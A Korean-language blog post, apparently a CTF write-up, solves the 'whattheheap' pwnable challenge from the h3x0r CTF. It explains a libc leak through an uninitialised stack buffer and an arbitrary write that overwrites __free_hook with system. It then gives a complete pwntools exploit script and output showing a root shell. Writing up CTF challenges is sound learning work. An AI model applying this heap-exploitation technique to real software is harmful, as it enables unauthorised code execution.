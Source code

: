 ```yaml
---
layout: post
title: ! '[h3x0r CTF] whattheheap (pwn 420)'
excerpt_separator: <!--more-->
tags:
  - CTF
  - Write-up
---
```


H3x0r CTF가 끝난 후에도 사이트가 열려있어서 덕분에 공부를 많이 하고 있다. pwnable 문제 중 두번째로 낮은 점수를 가지고 있었던 whattheheap 문제를 풀어보았다.

<!--more-->

> nc 49.236.136.140 16000
> 
> nc c2w2m2.com 16000
> 
> [Download](https://h3x0r.kr/uploads/10/whattheheap)
> 
>
> -초록돼지

역시 바이너리를 하나 던져준다.

> root@ubuntu:~/CTF/h3x0r/whattheheap# checksec whattheheap
>
> [*] '/root/CTF/h3x0r/whattheheap/whattheheap'
>
> Arch:     amd64-64-little
>
> RELRO:    Full RELRO
>
> Stack:    Canary found
>
> NX:       NX enabled
>
> PIE:      PIE enabled

Full RELRO, Stack Canary, NX bit, PIE 보호기법이 모두 걸려있다. 이에 주의하면서 문제를 풀어야 한다.

먼저 PIE 보호기법때문에 분석이 어렵다. 이를 우회하는 방법은 [revers3r님의 블로그](http://revers3r.tistory.com/368)를 참고하였다.

![]({{ site.baseurl }}/images/KRater/2018-07-02-whattheheap-writeup/pic01.PNG)

위에 나온 트릭으로 main 함수의 주소를 구할 수 있다. 또한 이를 이용해서 베이스 주소를 구한 뒤, 오프셋을 이용해서 다른 함수들 주소까지도 구할 수 있다. 이렇게 함수 주소를 구해놓은 뒤, 브레이크 포인트 걸 때 참고하면 분석하는게 훨씬 쉬워진다. 오프셋 구하는건 IDA에 아주 잘 나와있으니 참고하면 좋다.

name이 스택 영역 (지역변수)에 있다. 그런데 초기화가 되있지 않아서 많은 주소를 leak할 수 있다. 처음에는 이를 응용해서 함수 주소를 leak한 뒤, got overwrite를 해 보려고 했는데 Full RELRO가 있다는걸 까먹었다.. 그래서 삽질하다가 안된다는걸 깨닫고 다른 방법을 찾았다.

역시 name이 초기화되지 않았다는것을 응용, libc 주소를 leak한다. 임의의 주소에 값을 어떻게 쓸 지 고민하면서 계속 분석하고 있었는데, 마침 좋은 벡터를 찾았다.

![]({{ site.baseurl }}/images/KRater/2018-07-02-whattheheap-writeup/pic02.PNG)

$rbp-0x110은 name이 들어가는 위치이고, $rbp-0x118은 다른 함수들에 인자로 넘겨주는 값이다. (add, delete, edit, print) 그런데 $rbp-0x118에서부터 8*index 만큼 떨어진 위치에 해당 index의 heap 공간을 저장한다. 이렇게 되면 자연스럽게 두 번째 할당된 heap 영역의 주소가 name의 공간을 침범하게 된다. name 공간에 임의의 주소를 작성하고, 이에 해당하는 index의 값을 바꾸면(edit) 임의의 주소 안의 값을 조작할 수 있다.

Full RELRO 우회를 위해 free_hook에 system의 주소를 쓰고, free("/bin/sh")을 system("/bin/sh")로 조작할 것이다. 이를 위해 0번째 index에는 /bin/sh를 써 두고, 이를 delete하도록 한다.

```python
from pwn import *

PROCESS = "./whattheheap"
r = process(PROCESS)

def main () :
	r.send ("name")

	r.recvuntil("> ")
	r.sendline("5")
	r.recvuntil("change.")
	r.send("A"*0x28)

	r.recvuntil("> ")
	r.sendline("6")
	r.recvuntil("A"*0x28)
	data = r.recv(6) + "\x00\x00"

	log.warn("length of data : " + str(len(data)))

	libc_base = u64(data)-0x18c627
	free_hook_addr = libc_base+0x3C67A8
	system_addr = libc_base+0x45390

	log.info("libc_base : " + hex(libc_base))
	log.info("free_hook_addr : " + hex(free_hook_addr))
	log.info("system_addr : " + hex(system_addr))

	add(10, '/bin/sh\x00')
	add(10, 'C'*4)
	add(128, 'D'*120)
	add(128, 'E'*120)

	rename(p64(free_hook_addr))

	edit(1, p64(system_addr))
	delete(0) # trigger system("/bin/sh")

	r.interactive()

def add (size, content) :
	r.recvuntil("> ")
	r.sendline("1")

	r.recvuntil("size : ")
	r.sendline(str(size))
	r.recvuntil("contents : ")
	r.send(content)

def delete (index) :
	r.recvuntil("> ")
	r.sendline("2")

	r.recvuntil("> ")
	r.sendline(str(index))

def edit (index, content) :
	r.recvuntil(">")
	r.sendline("3")

	r.recvuntil(">")
	r.sendline(str(index))
	r.recvuntil("contents : ")
	r.send(content)

def rename (name) :
	r.recvuntil(">")
	r.sendline("5")
	r.recvuntil("to change.")
	r.send(name)

if __name__ == '__main__' :
	main()

```

>root@ubuntu:~/CTF/h3x0r/whattheheap# python ex.py 
>
>[+] Starting local process './whattheheap': pid 48592
>
>[!] length of data : 8
>
>[*] libc_base : 0x7facf1936000
>
>[*] free_hook_addr : 0x7facf1cfc7a8
>
>[*] system_addr : 0x7facf197b390
>
>[*] Switching to interactive mode
>
>$ ls
>
>ex.py  peda-session-whattheheap.txt  sol.py  test.py  whattheheap
>
>$ id
>
>uid=0(root) gid=0(root) groups=0(root)

재밌었다!